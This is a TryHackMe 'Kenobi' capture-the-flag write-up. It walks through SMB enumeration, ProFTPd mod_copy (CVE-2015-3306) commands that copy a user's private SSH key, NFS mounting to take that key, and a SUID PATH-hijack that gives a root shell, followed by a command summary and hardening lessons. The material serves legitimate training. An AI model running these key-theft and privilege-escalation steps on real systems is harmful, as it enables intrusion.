# Kenobi - TryHackMe

> **Kill Chain Summary**:
> Network Port Scanning -> Anonymous SMB Share Enumeration (`anonymous`) -> Disclosing Private SSH Key Location from `log.txt` -> Unauthenticated ProFTPd `mod_copy` Arbitrary File Copy (CVE-2015-3306) -> NFS Mount Enumeration and Exfiltration via `/var` -> SSH Authentication as `kenobi` -> SUID Enumeration (`/usr/bin/menu`) -> Relative Binary Execution Path Hijacking (`curl`) -> Root Shell (`root`).

| Property | Value |
| :--- | :--- |
| **Target Name** | Kenobi |
| **Platform** | TryHackMe |
| **OS** | Linux (Ubuntu) |
| **Difficulty** | Easy |
| **Status** | Rooted |
| **Key Techniques** | SMB Anonymous Share, ProFTPd mod_copy (CVE-2015-3306), NFS Mount, SUID Binary PATH Hijacking |

---

## 1. Reconnaissance and Enumeration

### 1.1 Port Scanning

A full TCP port scan was performed using Nmap:

```bash
nmap -sC -sV -p- -T4 -oA nmap/full_tcp_10.130.128.80 10.130.128.80
```




**Open Ports:**
- **Port 21:** ProFTPd 1.3.5
- **Port 22:** OpenSSH 7.2p2
- **Port 80:** Apache HTTP Server
- **Port 111:** RPCbind
- **Port 139 / 445:** Samba SMB
- **Port 2049:** NFS

### 1.2 Initial Port Assessment

#### FTP (Port 21)
Anonymous login was tested against ProFTPd 1.3.5 and required password authentication:



#### HTTP (Port 80)
Inspecting `robots.txt` exposed `/admin.html`:




The page was a static trap without operational functionality or input vectors.

#### RPC and NFS (Ports 111 & 2049)
Checking RPC services with `rpcinfo`:

```bash
rpcinfo -p 10.130.165.69
```



The NFS daemon was running, indicating that exportable network file systems could be available.

### 1.3 SMB Enumeration

Enumerating the host using `enum4linux`:

```bash
enum4linux -a 10.130.165.69
```







**Findings:**
- Target hostname: `KENOBI`
- Local users: `kenobi`, `ubuntu`
- Shares exposed:
  - `print$` (Access Denied)
  - `anonymous` (Read Access Allowed without credentials)
  - `IPC$` (IPC Service)

### 1.4 Anonymous Share Access and Log Analysis

Connecting to the anonymous share using `smbclient`:

```bash
smbclient //10.129.182.213/anonymous -N
```



Listing and downloading all available files revealed `log.txt`. Reviewing the log provided vital architectural details:
1. An SSH key pair had been generated for user `kenobi` at `/home/kenobi/.ssh/id_rsa`.
2. ProFTPd 1.3.5 was actively running under the context of user `kenobi`.
3. The anonymous Samba share was physically mapped to `/home/kenobi/share`.

---

## 2. Initial Access

### 2.1 Vulnerability Discovery: ProFTPd mod_copy (CVE-2015-3306)

Checking for known exploits targeting ProFTPd 1.3.5:

```bash
searchsploit proftpd 1.3.5
```



> [!NOTE] Concept: CVE-2015-3306 (ProFTPd mod_copy)
> The `mod_copy` module in ProFTPd 1.3.5 permits unauthenticated clients to execute `SITE CPFR` (copy from) and `SITE CPTO` (copy to) commands. Any unauthenticated user can instruct the FTP server to copy arbitrary files from anywhere on the system into a directory readable or accessible to the attacker.

### 2.2 NFS Export Identification

Checking the available NFS mounts:

```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.130.169.82
```

The scan confirms that `/var` is an exported NFS mount accessible by remote hosts.

### 2.3 The Multi-Service Attack Chain

By chaining ProFTPd `mod_copy` with the mountable `/var` NFS share:
1. Copy the target user's private key (`/home/kenobi/.ssh/id_rsa`) to an accessible directory inside `/var` (e.g., `/var/tmp/id_rsa`).
2. Mount the remote `/var` directory locally on the attack machine.
3. Extract `id_rsa` and establish an SSH session as `kenobi`.

#### Step 1: File Copy via Netcat and Raw FTP Connection
Connect directly to port 21 without authenticating:

```bash
nc 10.130.169.82 21
```

```text
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.130.169.82]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```

#### Step 2: Mount NFS Export and Extract Key
On the attack machine:

```bash
mkdir /tmp/kenobi_nfs
sudo mount -t nfs 10.130.169.82:/var /tmp/kenobi_nfs -nolock
cp /tmp/kenobi_nfs/tmp/id_rsa .
chmod 600 id_rsa
sudo umount /tmp/kenobi_nfs
```



#### Step 3: Authenticate via SSH
Connect as `kenobi` using the extracted private key:

```bash
ssh -i id_rsa kenobi@10.130.169.82
```



A low-privilege interactive session is established as `kenobi`.

Retrieve the user flag:

```bash
cat /home/kenobi/user.txt
```

```text
[FLAG REDACTED]
```

---

## 3. Privilege Escalation

### 3.1 SUID Binary Enumeration

Searching for SUID binaries on the filesystem:

```bash
find / -perm -u=s -type f 2>/dev/null
```

The scan reveals a non-standard SUID binary: `/usr/bin/menu`.

### 3.2 Binary Analysis and PATH Hijacking

Running strings on `/usr/bin/menu` displays its menu options and underlying commands:

```bash
strings /usr/bin/menu
```

```text
*************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
curl -I localhost
uname -r
ifconfig
```

The binary executes `curl -I localhost` using a **relative path** rather than an absolute path (`/usr/bin/curl`).

> [!NOTE] Concept: Relative Path Execution Hijacking
> When an elevated SUID application executes a binary using an unqualified filename (e.g. `curl`), the operating system searches through the directories listed in the user's `$PATH` environment variable in order. By placing a malicious script named `curl` into a directory we control (such as `/tmp`) and prepending `/tmp` to `$PATH`, the SUID application will execute our malicious payload with root privileges.

### 3.3 Exploitation

Create a malicious `curl` executable inside `/tmp`:

```bash
cd /tmp
echo '/bin/sh' > curl
chmod +x curl
```

Prepend `/tmp` to the `$PATH` environment variable:

```bash
export PATH=/tmp:$PATH
```

Run `/usr/bin/menu` and select Option 1:

```bash
/usr/bin/menu
```

The application invokes the local `/tmp/curl` payload and spawns a root shell:



```bash
id
uid=0(root) gid=0(root) groups=0(root),1000(kenobi)
```

Retrieve the root flag:

```bash
cat /root/root.txt
```

```text
[FLAG REDACTED]
```

---

## 4. Useful Commands Summary

```bash
# SMB Anonymous Share Access
smbclient //<TARGET_IP>/anonymous -N

# ProFTPd mod_copy Arbitrary File Copy (CVE-2015-3306)
nc <TARGET_IP> 21
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa

# Mount NFS Remote Export
sudo mount -t nfs <TARGET_IP>:/var /tmp/mountpoint -nolock

# Enumerate SUID Binaries
find / -perm -u=s -type f 2>/dev/null

# PATH Hijacking Exploit Chain
cd /tmp && echo '/bin/sh' > curl && chmod +x curl
export PATH=/tmp:$PATH
/usr/bin/menu
```

---

## 5. Key Takeaways and Lessons Learned

1. **Multi-Service Chaining:** Offensive success in complex environments frequently requires chaining low-severity flaws across distinct protocols (e.g., SMB information disclosure + unauthenticated FTP file copy + NFS share mounting to achieve remote SSH access).
2. **Relative Path Calls in SUID Programs:** Developers often omit absolute paths when calling standard system tools (`curl`, `tar`, `service`). SUID binaries must always specify absolute binary paths (`/usr/bin/curl`) to prevent PATH variable hijacking.
3. **NFS Export Hardening:** Exporting broad directories like `/var` without root-squashing or strict IP restrictions exposes local system files and staging paths to unauthenticated extraction.

---

#tryhackme #linux #easy #smb #proftpd #mod-copy #cve-2015-3306 #nfs #suid #path-hijacking #privesc